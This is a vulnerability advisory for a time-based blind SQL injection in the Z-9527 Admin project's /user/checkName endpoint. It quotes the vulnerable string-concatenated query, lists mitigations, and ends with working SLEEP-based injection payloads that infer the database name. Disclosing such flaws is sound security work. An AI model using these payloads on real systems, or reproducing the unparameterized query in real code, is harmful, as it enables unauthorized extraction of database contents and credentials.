


# SQL Blind Injection Vulnerability in Z-9527 Admin

> **Software and Affected Version:** [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d

## Vulnerability files

-   `server/routes/user.js`
-   `server/controller/user.js`

## Description

A SQL blind injection vulnerability exists in [Z-9527 Admin](https://github.com/z-9527/admin) ≤ commit 72aaf2d at the `/user/checkName` endpoint, where the `username` query parameter is concatenated directly into a SQL statement without sanitization or parameterization. As a result, unauthenticated attackers can inject malicious SQL payloads using time-based blind-injection techniques to infer sensitive database information character-by-character through response-time analysis. This enables complete database enumeration, credential extraction, and potential privilege escalation. Mitigations include immediately replacing string concatenation with parameterized queries or prepared statements, implementing strict input validation and sanitization for all user-supplied parameters, applying the principle of least privilege to database connections, deploying web application firewalls with SQL injection detection rules, and conducting comprehensive security audits of all database query construction patterns across the codebase.

## Code Analysis

In `server/routes/user.js`:

```js
router.get('/checkName', async function (ctx, next) {
    const { username } = ctx.query;
    const res = await checkName(username);
    handleRes(ctx, next, res);
});
```

In `server/controller/user.js`:

```js
const checkName = async function (username) {
    const sql = `select username from users where username='${username}'`;
    const res = await exec(sql);
    return new SuccessModel({
        data: { num: res.length }
    });
};
```

The user input is directly concatenated into the SQL statement.

## Proof of Concept

Assuming the current database is `admin`, sending a request to `/user/checkName` with `username` set to the following payload returned a response after approximately 2010 ms:

```plain
1' or IF(SUBSTRING((SELECT DATABASE()), 1, 1) = 'a', SLEEP(1), 1) #
```



Assuming the current database is `admin`, sending a request to `/user/checkName` with `username` set to the following payload returned a response after approximately 8 ms:

```plain
1' or IF(SUBSTRING((SELECT DATABASE()), 1, 1) = 'b', SLEEP(1), 1) #
```


